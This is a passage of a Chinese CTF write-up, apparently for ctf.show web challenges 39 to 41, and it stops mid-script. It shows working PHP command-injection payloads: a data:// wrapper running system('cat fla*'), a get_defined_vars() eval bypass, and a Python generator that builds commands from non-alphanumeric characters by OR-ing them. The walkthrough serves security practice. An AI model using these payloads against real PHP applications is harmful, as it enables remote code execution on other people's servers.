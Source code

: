 这个跟上题解法一样

```
?c=data://text/plain,<?= system("cat fla*");?>
```

然后查看源代码得到flag

![image-20220316204659428](https://img-blog.csdnimg.cn/img_convert/9f9c1ee912a6e33521449880760432e0.png)

# web40

![image-20220316204834861](https://img-blog.csdnimg.cn/img_convert/ded4dd0594ed3aef1caa638d79bb8577.png)

这道题过滤了很多字符，利用get_defined_vars()

```bash
？c=eval(end(current(get_defined_vars())));&a=system("ls");
```

![image-20220316205101652](https://img-blog.csdnimg.cn/img_convert/f145f16b6d07a8189eeb8d3aed9cdcdf.png)

tac得到flag![image-20220316205117877](https://img-blog.csdnimg.cn/img_convert/c1c5ea5790bdcc9977aead8aa41e9983.png)

# web41

![image-20220316205218255](https://img-blog.csdnimg.cn/img_convert/e6e863fd38a2f236f8c5aef23db89cb6.png)

这道题把数字和字母都过滤了，写个脚本

```
import re
import requests

url="http://2a2e4b71-f1ff-4953-8b14-bd26f6633fdc.challenge.ctf.show/"

a=[]
ans1=""
ans2=""
for i in range(0,256):
    c=chr(i)
    tmp = re.match(r'[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-',c, re.I)
    if(tmp):
        continue
        #print(tmp.group(0))
    else:
        a.append(i)

# eval("echo($c);");
mya="system"  #函数名 这里修改！
myb="ls"      #参数
def myfun(k,my):
    global ans1
    global ans2
    for i in range (0,len(a)):
        for j in range(i,len(a)):
            if(a[i]|a[j]==ord(my[k])):
                ans1+=chr(a[i])
                ans2+=chr(a[j])
                return;
for k in range(0,len(mya)):
    myfun(k,mya)
data1="(\""+ans1+"\"|\""+ans2+"\")"
ans1=""
```